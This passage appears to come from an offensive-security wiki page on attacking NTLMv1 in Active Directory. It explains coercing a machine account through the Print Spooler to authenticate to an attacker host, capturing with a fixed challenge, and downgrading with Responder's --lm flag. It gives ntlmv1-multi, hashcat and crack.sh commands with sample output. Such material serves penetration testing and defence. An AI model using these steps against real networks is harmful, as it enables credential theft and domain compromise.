 ### NTLMv1 attack

Nowadays is becoming less common to find environments with Unconstrained Delegation configured, but this doesn't mean you can't **abuse a Print Spooler service** configured.

You could abuse some credentials/sessions you already have on the AD to **ask the printer to authenticate** against some **host under your control**. Then, using `metasploit auxiliary/server/capture/smb` or `responder` you can **set the authentication challenge to 1122334455667788**, capture the authentication attempt, and if it was done using **NTLMv1** you will be able to **crack it**.\
If you are using `responder` you could try to **use the flag `--lm`** to try to **downgrade** the **authentication**.\
&#xNAN;_&#x4E;ote that for this technique the authentication must be performed using NTLMv1 (NTLMv2 is not valid)._

Remember that the printer will use the computer account during the authentication, and computer accounts use **long and random passwords** that you **probably won't be able to crack** using common **dictionaries**. But the **NTLMv1** authentication **uses DES** ([more info here](./#ntlmv1-challenge)), so using some services specially dedicated to cracking DES you will be able to crack it (you could use [https://crack.sh/](https://crack.sh) or [https://ntlmv1.com/](https://ntlmv1.com) for example).

### NTLMv1 attack with hashcat

NTLMv1 can also be broken with the NTLMv1 Multi Tool [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) which formats NTLMv1 messages im a method that can be broken with hashcat.

The command

```bash
python3 ntlmv1.py --ntlmv1 hashcat::DUSTIN-5AA37877:76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595:1122334455667788
```

would output the below:

```bash
['hashcat', '', 'DUSTIN-5AA37877', '76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D', '727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595', '1122334455667788']

Hostname: DUSTIN-5AA37877
Username: hashcat
Challenge: 1122334455667788
LM Response: 76365E2D142B5612980C67D057EB9EFEEE5EF6EB6FF6E04D
NT Response: 727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
CT1: 727B4E35F947129E
CT2: A52B9CDEDAE86934
CT3: BB23EF89F50FC595

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin BB23EF89F50FC595 1122334455667788

To crack with hashcat create a file with the following contents:
727B4E35F947129E:1122334455667788
A52B9CDEDAE86934:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1

To Crack with crack.sh use the following token
NTHASH:727B4E35F947129EA52B9CDEDAE86934BB23EF89F50FC595
```
